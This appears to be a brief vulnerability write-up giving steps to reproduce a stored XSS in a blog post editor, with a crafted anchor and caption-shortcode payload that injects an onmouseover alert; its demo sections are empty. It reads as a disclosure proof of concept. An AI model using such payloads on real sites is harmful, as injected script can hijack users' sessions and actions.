

# Steps
**Step 1:**
Make a new Post

**Step 2:**
Type the code below into the body of the post 
```
<a href = "[caption code="]></a> <a title = " onmouseover=alert('Hello')">link</a>
```
**Step 3**
A link will appear in the post. Have a user click that link to perform the XSS


# Demo


# Second way to perform XSS 
# Demo

